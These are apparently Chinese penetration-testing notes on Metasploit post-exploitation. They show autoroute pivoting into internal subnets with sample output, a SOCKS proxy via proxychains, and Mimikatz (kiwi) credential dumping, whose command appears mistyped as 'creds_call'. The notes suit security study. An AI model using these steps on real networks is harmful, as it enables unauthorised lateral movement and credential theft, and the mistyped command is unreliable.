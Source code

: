 ### 添加路由

自动化模块：`run post/multi/manage/autoroute` 

```c
meterpreter > run post/multi/manage/autoroute 

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against WEB
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.10.10.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.5.0/255.255.255.0 from host's routing table.
```

查看路由：`route print`

```c
msf6 exploit(multi/handler) > route print 

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.10.10.0         255.255.255.0      Session 6
   192.168.5.0        255.255.255.0      Session 6

[*] There are currently no IPv6 routes defined.
```

### 设置socks代理

```c
use auxiliary/server/socks_proxy
run
```

编辑 `vim /etc/proxychains4.conf` 添加

```c
socks5 	127.0.0.1 1080
```

### 获取凭证

```c
load kiwi
creds_call
```
